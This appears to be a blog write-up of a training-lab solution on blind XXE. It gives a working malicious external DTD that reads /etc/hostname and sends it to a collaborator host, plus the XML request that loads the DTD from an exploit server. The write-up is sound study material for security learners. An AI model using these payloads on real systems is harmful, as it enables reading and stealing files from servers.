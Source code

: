 ```yaml
---
layout: post
title:  "Exploiting blind XXE to exfiltrate data using a malicious external DTD"
date:   2024-11-23 10:20:54 +0530
categories: [BSCP, XXE]
---
```


## Objective 

This lab has a "Check stock" feature that parses XML input but does not display the result.

To solve the lab, exfiltrate the contents of the `/etc/hostname` file. 

## Solution 

In the exploit server, I've created the following malicious `dtd` file where it will fetch the contents of `/etc/hostname` and pass it on to our external collaborator 

```xml
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://ezhowuwf9vie5fyfv05olbxce3kw8mwb.oastify.com/?x=%file;'>">
%eval;
%exfiltrate;
```

Once after storing the above payload in exploit server, through checkstock functionality we pass the following payload 

```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM
"https://exploit-0a730090048d74d280fa70b2014a0024.exploit-server.net/exploit.dtd"> %xxe;]><stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>
```

Here is how it works, firstly it will access the file called `/etc/hostname` and through eval entity we will be passing the payload on to our burp collaborator through a `x` parameter we can read those file 

After sending the request, our response is quite similiar like the previous one and where `XML parser error` occured 

![]({{ site.baseurl }}/assets/images/xxe/xxe-22.png)

Checking the collaborator, we recieved the values of the `hostname` inside `x` parameter 

![]({{ site.baseurl }}/assets/images/xxe/xxe-23.png)

Submit those values as solution and that solves the lab 

![]({{ site.baseurl }}/assets/images/xxe/xxe-24.png)
